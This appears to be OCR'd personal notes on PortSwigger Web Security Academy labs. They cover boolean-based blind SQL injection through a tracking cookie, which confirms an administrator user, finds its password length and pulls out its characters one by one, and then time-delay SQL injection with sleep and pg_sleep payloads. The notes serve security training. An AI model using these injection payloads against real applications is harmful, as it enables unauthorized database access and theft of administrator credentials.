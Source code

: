 select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator')='administrator'--'
-> administrator user exists

4) Enumerate the password of the administrator user

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'
-> password is exactly 20 characters

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select substring(password,2,1) from users where username='administrator')='a'--'

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20

1=e
2=l
3=b
4=
5=
6=k
7=t
8=e
9=e
10=d
11=
12=c
13=
14=
15=
16=o
17=
18=d
19=
20=t

# Blind SQL injection with time delays
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays

### Notes
Lab #13 - Blind SQL Injection with time delays

Vulnerable parameter - tracking cookie

End Goal:
- to prove that the field is vulnerable to blind SQLi (time based)

Analysis:

select tracking-id from tracking-table where trackingid='OVmpehhTPt2iCL19'|| (SELECT sleep(10))--';

' || (SELECT sleep(10))-- -x
' || (SELECT pg_sleep(10))-- 